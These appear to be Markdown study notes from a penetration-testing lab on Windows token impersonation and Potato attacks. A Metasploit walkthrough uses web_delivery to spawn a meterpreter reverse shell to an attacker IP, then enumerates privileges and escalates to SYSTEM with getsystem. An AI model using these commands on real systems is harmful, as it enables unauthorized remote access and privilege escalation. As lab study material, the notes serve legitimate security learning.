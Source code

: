 * Tokens - temporary keys that allow access to system/network without using creds.

* Types of tokens:

  * Delegate - logging into machine, using RDP

  * Impersonate - 'non-interactive', like attaching network drive or domain logon script

* Token impersonation - impersonate another user logged onto system.

* Certain enabled privileges, which can be found out by ```whoami /priv```, can be [impersonation privileges](https://github.com/gtworek/Priv2Admin).

* An example of a Potato attack would be [Juicy Potato](https://github.com/ohpe/juicy-potato), which exploits the enabled ```SeImpersonate``` or ```SeAssignPrimaryToken``` privileges:

```shell
whoami /priv
#SeImpersonatePrivilege enabled

#in attacker machine
msfconsole -q

use exploit/multi/script/web_delivery

options

show targets

set target 2
#powershell

set payload windows/meterpreter/reverse_tcp
#x64 does not work

set LHOST 10.10.14.3

set srvhost 10.10.14.3

run
#this gives us a powershell command to run
#run the command in victim shell
#we get a meterpreter shell

sessions 1

getuid
#kohsuke

# to check the available exploits. In this case look for pototo attacks such as /ms16_075_reflection
run post/multi/recon/local_exploit_suggester 
getprivs
#Output:
 SeChangeNotifyPrivilege
 SeCreateGlobalPrivilege
--------->SeImpersonatePrivilege<-------------
 SeIncreaseWorkingSetPrivilege
 SeShutdownPrivilege
 SeTimeZonePrivilege
 SeUndockPrivilege

# QUICK WIN: in the meterpreter run: getsystem. BOOM! you are NT AUTHORITY\SYSTEM

#now we can try potato exploit

background
```